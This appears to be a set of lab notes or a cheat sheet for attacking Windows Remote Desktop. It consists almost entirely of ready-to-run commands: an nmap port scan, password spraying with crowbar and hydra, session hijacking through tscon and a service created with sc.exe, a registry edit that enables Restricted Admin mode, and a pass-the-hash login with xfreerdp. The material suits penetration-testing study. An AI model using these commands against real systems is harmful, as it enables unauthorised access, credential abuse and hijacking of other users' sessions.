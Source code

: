 
nmap scan
```shell-session
nmap -Pn -p3389 192.168.2.143
```


Password spraying tools
https://github.com/galkan/crowbar
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

login to via rdp on linux
```shell-session
rdesktop -u admin -p password123 192.168.2.143
```

Impersonating another user (Must have SYSTEM privilege's)
```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Session Hijacking
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create
```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\htb> net start sessionhijack
```

Used when perms are blocking rdp via pass the hash
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

rdp via pth
```shell-session
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
